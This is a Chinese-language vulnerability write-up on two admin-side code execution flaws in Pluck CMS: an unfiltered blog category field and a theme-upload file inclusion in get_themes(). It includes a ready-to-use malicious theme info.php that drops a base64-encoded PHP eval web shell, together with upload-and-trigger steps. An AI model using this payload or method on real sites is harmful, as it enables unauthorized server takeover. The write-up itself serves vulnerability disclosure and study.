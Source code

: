 # Pluck CMS后台另两处任意代码执行

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

第一处：过滤不严导致单引号逃逸

在function.php里面blog_save_post()函数


```php
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
    //Check if 'posts' directory exists, if not; create it.
    if (!is_dir(BLOG_POSTS_DIR)) {
        mkdir(BLOG_POSTS_DIR);
        chmod(BLOG_POSTS_DIR, 0777);
    }

    //Create seo-filename
    $seoname = seo_url($title);

    //Sanitize variables.
    $title = sanitize($title, true);
    $content = sanitizePageContent($content, false);

    if (!empty($current_seoname)) {
        $current_filename = blog_get_post_filename($current_seoname);
        $parts = explode('.', $current_filename);
        $number = $parts[0];

        //Get the post time.
        include BLOG_POSTS_DIR.'/'.$current_filename;

        if ($seoname != $current_seoname) {
            unlink(BLOG_POSTS_DIR.'/'.$current_filename);

            if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
                rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
        }
    }

    else {
        $files = read_dir_contents(BLOG_POSTS_DIR, 'files');

        //Find the number.
        if ($files) {
            $number = count($files);
            $number++;
        }
        else
            $number = 1;

        if (empty($force_time))
            $post_time = time();
        else
            $post_time = $force_time;
    }

    //Save information.
    $data['post_title']    = $title;
    $data['post_category'] = $category;
    $data['post_content']  = $content;
    $data['post_time']     = $post_time;

    save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);

    //Return seoname under which post has been saved (to allow for redirect).
    return $seoname;
}
```

其中


```php
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time;
```

$title $content 均被过滤，$post_time不可控，$category可控

所以只要把$cont2变成我们的payload即可

![](images/15893367614385.png)


![](images/15893367650902.png)


**第二处：安装模版+文件包含导致任意命令执行**

很多CMS都会在安装模版的时候getshell，那么这里笔者也发现了类似的漏洞。

1、直接访问失败

首先准备一个shell.php里面是我们的phpinfo();

然后打包成shell.zip，直接上传主题

![](images/15893367750746.png)


![](images/15893367788092.png)


发现确实上传并且解压成功

但是由于目录下有.htaccess文件，直接把php设置为不可解析，所以无法直接访问

![](images/15893367849944.png)


![](images/15893367885367.png)


2、文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到admin.php中关于theme的部分

![](images/15893367953219.png)


跟进 data/inc/theme.php，发现调用了get_themes()方法

![](images/15893368031570.png)


跟进 functions.all.php，查看get_themes()方法


```php
function get_themes() {
    $dirs = read_dir_contents('data/themes', 'dirs');
    if ($dirs) {
        natcasesort($dirs);
        foreach ($dirs as $dir) {
            if (file_exists('data/themes/'.$dir.'/info.php')) {
                include_once ('data/themes/'.$dir.'/info.php');
                $themes[] = array(
                    'title'   => $themename,
                    'dir' => $dir
                );
            }
        }
        return $themes;
    }
    else
        return false;
}
```

发现会遍历data/themes/下所有主题目录，并且包含他的info.php文件

此时info.php可控，就导致了任意代码执行。

3、利用方法

首先准备一个info.php


```php
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?>
```

然后打包压缩成shell.zip

上传安装主题，然后点击回到主题页，此时触发文件包含。

![](images/15893368312628.png)


![](images/15893368344096.png)


![](images/15893368380028.png)
